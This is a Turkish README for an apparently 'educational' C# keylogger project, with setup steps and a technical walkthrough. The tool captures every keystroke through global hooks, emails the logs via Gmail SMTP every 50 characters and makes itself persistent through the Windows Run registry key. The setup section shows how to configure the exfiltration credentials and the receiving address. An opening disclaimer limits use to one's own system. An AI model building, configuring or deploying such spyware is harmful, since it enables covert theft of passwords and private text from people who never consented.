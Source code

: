 PROJE TAMAMEN EĞİTİM AMAÇLIDIR!!!!
 # C# Eğitim Amaçlı Keylogger Projesi

Bu proje, Visual Studio ortamında C# dili kullanılarak geliştirilmiş, *tamamen eğitim ve araştırma amaçlı* bir keylogger uygulamasıdır. Projenin temel amacı, global klavye olaylarının (hooks) nasıl yakalandığını, arka plan işlemlerinin nasıl yönetildiğini, SMTP ile e-posta gönderimini ve Windows Registry (Kayıt Defteri) ile başlangıçta çalışma ayarlarının nasıl yapıldığını göstermektir.


---

## ⚠ ÖNEMLİ UYARI VE YASAL SORUMLULUK REDDİ

> Bu yazılım *yalnızca eğitim ve siber güvenlik farkındalığı yaratma amacıyla geliştirilmiştir.* Başka bir kişinin bilgisi ve rızası olmadan bilgisayarına bu tür bir yazılım yüklemek, kişisel verilerin gizliliğini ihlal eder. Bu eylem, TCK dahil olmak üzere birçok ülkenin yasalarına göre *yasa dışı olup ciddi hukuki ve cezai sonuçlar doğurabilir.*
>
> Bu kodun veya uygulamanın yasa dışı, kötü niyetli veya etik olmayan amaçlarla kullanılmasından doğacak hiçbir yasal sorumluluk kabul edilmemektedir. *Bu projeyi kullanarak tüm sorumluluğu üstlenmiş olursunuz.* Lütfen bu aracı sadece kendi sisteminizde, öğrenme ve test amacıyla kullanın.

---

## 🎯 Projenin Eğitim Hedefleri

*   *Global Klavye Kancaları (Hooks):* HootKeys gibi üçüncü parti bir kütüphane kullanarak sistem genelindeki klavye olaylarını nasıl dinleyeceğimizi öğrenmek.
*   *Veri Biriktirme ve Gönderme:* Yakalanan tuş vuruşlarını bir değişkende biriktirip belirli bir limite ulaşıldığında bu veriyi ağ üzerinden (e-posta ile) nasıl göndereceğimizi anlamak.
*   *SMTP Protokolü Kullanımı:* C# System.Net.Mail kütüphanesi ile Gmail gibi servisler üzerinden nasıl e-posta gönderileceğini kavramak.
*   *Windows'ta Kalıcılık (Persistence):* Bir uygulamanın, Windows Kayıt Defteri'ne (Registry) kendini ekleyerek her başlangıçta otomatik olarak nasıl çalıştırılabileceğini öğrenmek. Bu, siber güvenlikte "kalıcılık mekanizmaları"nı anlamak için önemli bir konsepttir.
*   *Arka Plan Uygulaması:* Bir Windows Forms uygulamasının görsel bir arayüz olmadan arka planda nasıl çalışabileceğini görmek.

---

## ✨ Projenin Özellikleri

*   *Geniş Karakter Desteği:* Standart alfanümerik karakterlerin yanı sıra Türkçe karakterleri (ğ, ü, ş, i, ö, ç), rakamları ve temel noktalama işaretlerini yakalar.
*   *Caps Lock Durum Takibi:* Caps Lock tuşunun durumuna göre büyük/küçük harf ayrımını doğru bir şekilde yapar.
*   *Veri Gönderimi:* Yakalanan tuş vuruşları 50 karaktere ulaştığında, belirlenen bir e-posta adresine logları otomatik olarak gönderir.
*   *Başlangıçta Otomatik Çalışma:* Uygulama ilk kez çalıştığında, kendini Windows Run kayıt defteri anahtarına ekleyerek sistem her yeniden başladığında otomatik olarak çalışır.

---

## 🛠 Kurulum ve Çalıştırma

### Gereksinimler
*   *IDE:* Visual Studio 2019 veya daha yeni bir sürümü
*   *.NET Sürümü:* .NET Framework 4.5+
*   *Bağımlılık:* HootKeys kütüphanesi.

### Adımlar
1.  *Projeyi Klonlayın veya İndirin:*
    bash
    git clone https://github.com/[Zeyneppceelik]/[zeynep-elik_proje2].git https://github.com/Zeyneppceelik/zeynep-elik_proje2/edit/master/README.md
    

2.  *Projeyi Visual Studio'da Açın:*
    *   Proje klasöründeki .sln uzantılı dosyayı açın.

3.  *Bağımlılığı Yükleyin:*
    *   Proje, HootKeys adlı bir kütüphane kullanmaktadır. Bu kütüphaneyi projenize eklemeniz gerekir.
    *   Visual Studio'da Tools > NuGet Package Manager > Package Manager Console yolunu izleyin.
    *   Açılan konsola aşağıdaki komutu yazıp Enter'a basın:
      powershell
      Install-Package HootKeys
      

4.  *E-posta Bilgilerini Yapılandırın (ÇOK ÖNEMLİ):*
    *   Form1.cs dosyasını açın ve Mail() fonksiyonunu bulun.
    *   Aşağıdaki satırlardaki e-posta ve şifre bilgilerini *kendi bilgilerinizle* değiştirin:
      csharp
      istemci.Credentials = new System.Net.NetworkCredential("SENDER-EMAIL@gmail.com", "YOUR-APP-PASSWORD");
      // ...
      msj.From = new MailAddress("SENDER-EMAIL@gmail.com");
      msj.To.Add("RECEIVER-EMAIL@gmail.com");
      
    *   *Güvenlik Notu:* Gmail, artık standart şifrelerin bu tür uygulamalarda kullanılmasına izin vermemektedir. Bunun yerine Google Hesabınızda *"Uygulama Şifreleri" (App Passwords)* oluşturmanız gerekmektedir.

5.  *Derleyin ve Çalıştırın:*
    *   Projeyi derlemek için F5 tuşuna basın veya Debug > Start Debugging menüsünü kullanın.
    *   Uygulama çalışmaya başladığında arka plana geçecektir. Klavye girişleriniz kaydedilecek ve 50 karaktere ulaştığında belirttiğiniz e-posta adresine gönderilecektir.

---

## ⚙ Kodun Teknik Açıklaması

*   **TuslariDinle():** Bu metot, globalKeyboardHook nesnesini başlatır ve dinlenmesi istenen tüm tuşları (Keys enum'ı) HookedKeys listesine ekler. Son olarak KeyDown olayına TusKombinasyonu metodunu atar.
*   **TusKombinasyonu(object sender, KeyEventArgs e):** Bu, her tuşa basıldığında tetiklenen ana metottur.
    *   Gelen e.KeyCode değerini kontrol ederek basılan tuşu tespit eder.
    *   if/else blokları ile bu tuşun karakter karşılığını log adlı string değişkene ekler.
    *   number sayacını artırır ve sayaç 50'yi geçtiğinde Mail() metodunu çağırarak logları gönderir ve değişkenleri sıfırlar.
*   **Mail():** System.Net.Mail.SmtpClient sınıfını kullanarak, önceden tanımlanmış kimlik bilgileriyle smtp.gmail.com sunucusu üzerinden e-posta gönderir.
*   **Form1_Load(object sender, EventArgs e):** Uygulama ilk yüklendiğinde çalışır.
    *   Control.IsKeyLocked(Keys.CapsLock) ile Caps Lock'un başlangıç durumunu kontrol eder.
    *   Microsoft.Win32.Registry sınıfını kullanarak HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run anahtarına erişir ve uygulamanın yürütülebilir dosya yolunu (Application.ExecutablePath) bu anahtara ekler. Bu sayede uygulama kalıcı hale gelir.

---

## 📜 Lisans

Bu proje MIT Lisansı altında dağıtılmaktadır. 
